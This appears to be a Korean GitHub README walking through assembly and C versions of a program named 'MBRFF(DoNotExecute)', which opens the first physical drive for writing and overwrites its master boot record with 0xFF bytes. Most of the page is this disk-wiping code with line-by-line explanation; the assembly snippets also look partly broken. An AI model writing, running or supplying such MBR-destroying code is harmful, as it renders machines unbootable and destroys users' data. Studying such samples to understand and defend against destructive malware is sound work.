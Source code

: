 # MBRFF(DoNotExecute).asm
이 프로그램은 MBRFF(DoNotExecute).py를 기반으로 어셈블리어로 제작성한 파일입니다. 작동방법은 MBRFF(DoNotExecute).py와 같습니다.

~~어셈블리어를 공부하기위해 만들었긴 했지만 chatgpt 지분 90%..~~
```asm
disk_path db '\\.\PhysicalDrive0', 0
```
disk_path는 문자열로 물리적 디스크에 대한 경로(\\\\.\\PhysicalDrive0)를 지정합니다. 이 경로는 시스템의 첫 번째 물리적 드라이브에 접근하도록 지정합니다.


```asm
push 0
push 0
push 3
push 0
push 0x40000000
push disk_path
call [CreateFileA]

```
위 스니펫은 Windows API의 CreateFileA를 호출하여 디스크에 접근합니다. 
접근 모드는 GENERIC_WRITE로 설정되어, 디스크에 데이터를 쓸 권한을 요청합니다.

```asm
mov ecx, 512
xor edi, edi

.fill_buffer:
    mov byte [edi], 0xFF
    inc edi
    loop .fill_buffer
```

512바이트의 버퍼를 준비하고, 각 바이트들을 0xFF로 지정합니다. 이 버퍼는 WriteFile을 사용하여 MBR이 이 버퍼로 덮어쓰기됩니다.


```asm
push 0
push ecx
push edi
push eax
call [WriteFile]
```
위 fill_buffer에 있는 데이터로 디스크 첫번째 섹터(MBR)에 덮어씁니다.


# MBRFF(DoNotExecute).c
이 프로그램은 MBRFF(DoNotExecute).py를 기반으로 어셈블리어로 제작성한 파일입니다. 작동방법은 MBRFF(DoNotExecute).py와 같습니다.


```c
HANDLE hDisk = CreateFile("\\\\.\\PhysicalDrive0", GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
```
CreateFile함수를 사용하여 \\.\PhysicalDrive0 드라이블를 Generic_write모드로 엽니다.


```c
BYTE buffer[512];
memset(buffer, 0xFF, sizeof(buffer));
BOOL result = WriteFile(hDisk, buffer, sizeof(buffer), &bytesWritten, NULL);
```

버퍼를 512바이트로 생성후 0xFF로 초기화하고, WriteFile을 사용하여 디스크 MBR위치에 덮어씁니다.
